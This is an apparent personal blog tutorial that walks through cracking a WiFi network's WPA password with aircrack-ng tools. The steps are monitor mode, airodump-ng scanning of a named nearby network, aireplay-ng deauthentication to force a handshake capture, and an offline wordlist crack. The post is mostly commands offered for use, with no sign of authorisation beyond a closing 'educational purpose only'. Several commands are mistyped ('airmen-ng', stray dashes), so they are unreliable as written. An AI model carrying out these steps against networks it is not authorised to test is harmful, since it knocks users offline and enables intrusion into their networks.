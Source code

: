 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-16T12:22:23Z
slug:  Wifi hacking 101
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
  - wifi-hacking
ogImage: https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-1.jpg

description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…..

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

![Network Adapter](https://asset.cloudinary.com/dssxmlpy6/eb27c3bb9d94c053dc723f7c2a80961f)

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```code
iwconfig
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-2.png)

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```code
sudo airmen-ng start wlan0 
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-3.png)

Again, use the command mentioned below to verify the monitor mode.

```code
iwconfig
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-4.png)

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```code
sudo airodump-ng wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-5.png)

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```code
sudo airodump-ng wlan0 -d <mac-address>
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-6.png)

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```code
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-7.png)

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```code
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-8.png)

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

> **What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-9.png)

Now, you see that it captures the handshake. Type in the ls command to see the file.

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-10.png)

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```code
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-11.png)

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
